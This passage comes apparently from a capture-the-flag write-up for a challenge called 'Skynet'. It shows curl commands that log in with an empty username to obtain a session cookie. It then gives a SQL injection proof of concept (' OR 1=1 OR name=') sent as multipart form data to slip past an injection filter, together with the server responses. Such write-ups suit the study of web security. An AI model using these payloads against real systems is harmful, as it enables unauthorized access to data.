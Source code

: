 The following curl command illustrates this:
```bash
curl -v -X POST http://47.242.21.212:8081/login \
    -F "username=" \
    -F "password=asdasdasd"
```
```bash
*   Trying 47.242.21.212:8081...
* Connected to 47.242.21.212 (47.242.21.212) port 8081 (#0)
> POST /login HTTP/1.1
> Host: 47.242.21.212:8081
> User-Agent: curl/7.79.1
> Accept: */*
> Content-Length: 249
> Content-Type: multipart/form-data; boundary=------------------------52f42c0931fd21fe
> 
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
* HTTP 1.0, assume close after body
< HTTP/1.0 302 FOUND
< Content-Type: text/html; charset=utf-8
< Content-Length: 13
# highlight-start
< Set-Cookie: SessionId=a706967504e8247d98ad7e583a11e002; Path=/
# highlight-end
< Location: http://47.242.21.212:8081/
< Server: Werkzeug/0.16.1 Python/3.8.10
< Date: Sat, 22 Jan 2022 21:18:43 GMT
< 
* Closing connection 0
Login success    
```

We can now use the `SessionId` cookie of `a706967504e8247d98ad7e583a11e002` in our future requests.

## SQL Injecting

Now that we have a `SessionId` cookie we can access the vulnerable SQL query. We can inject using the `name` key from the form data of a POST request. The problem is the `skynet_detect()` function seems to do some sort of injection filtering, blocking more obvious injections.

It seemed by sending the POST request form in the `multipart/form-data` format seemed to bring better results. The following curl was our first PoC of a working injection:
```bash
curl -X POST 47.242.21.212:8081 \                                                             130 ⨯
   -b 'SessionId=a706967504e8247d98ad7e583a11e002' \
   -H 'Content-Type: multipart/form-data; boundry=----xxx' \
   -F "name=' OR 1=1 OR name='"
```
```html
<!DOCTYPE html>
<head>
  <link rel="stylesheet" href="static/style.css">
  <meta name="viewport" content="width=device-width, initial-scale=1" />
  <title>Skynet Target List</title>
</head>

<body>
  <div class="query">
    
      <h1>Kill before</h1>
      <h1>skynet: 1997-04-19 00:00:00</h1>
    
  </div>
</body>
```